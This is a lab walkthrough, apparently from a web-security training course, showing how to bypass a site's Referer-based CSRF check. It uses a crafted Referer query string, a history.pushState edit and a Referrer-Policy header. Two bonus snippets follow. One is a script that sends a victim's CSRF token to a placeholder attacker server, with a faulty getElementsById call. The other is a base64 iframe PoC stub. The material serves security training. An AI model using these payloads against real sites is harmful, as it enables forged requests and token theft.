 
### Solution
1. With your browser proxying traffic through Burp Suite, log in to your account, submit the "Update email" form, and find the resulting request in your Proxy history.
2. Send the request to Burp Repeater. Observe that if you change the domain in the Referer HTTP header, the request is rejected.
3. Copy the original domain of your lab instance and append it to the Referer header in the form of a query string. The result should look something like this:
```
Referer: https://arbitrary-incorrect-domain.net?your-lab-id.web-security-academy.net
```
4. Send the request and observe that it is now accepted. The website seems to accept any Referer header as long as it contains the expected domain somewhere in the string.
5. Create a CSRF proof of concept exploit as described in the solution to the CSRF vulnerability with no defenses lab and host it on the exploit server. Edit the JavaScript so that the third argument of the ``history.pushState()`` function includes a query string with your lab instance URL as follows:
```
history.pushState("", "", "/?your-lab-id.web-security-academy.net")
```
This will cause the Referer header in the generated request to contain the URL of the target site in the query string, just like we tested earlier.
6. If you store the exploit and test it by clicking "View exploit", you may encounter the "invalid Referer header" error again. This is because many browsers now strip the query string from the Referer header by default as a security measure. To override this behavior and ensure that the full URL is included in the request, go back to the exploit server and add the following header to the "Head" section:
```
Referrer-Policy: unsafe-url
```
7. Note that unlike the normal Referer header, the word "referrer" must be spelled correctly in this case.
Store the exploit, then click "Deliver to victim" to solve the lab.


## BONUS: steal a user’s CSRF token by Vickie Li

```html
<script>
var token = document.getElementsById('csrf')[0];
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://attacker_server_ip/?token="+token, true);
xhr.send(null);
</script>
```
## BONUS: CSRF PoC with base64 encoding by zseano

```html
<iframe src=”data:text/html;base64,form_code_encoded_in_base64_here”>
```


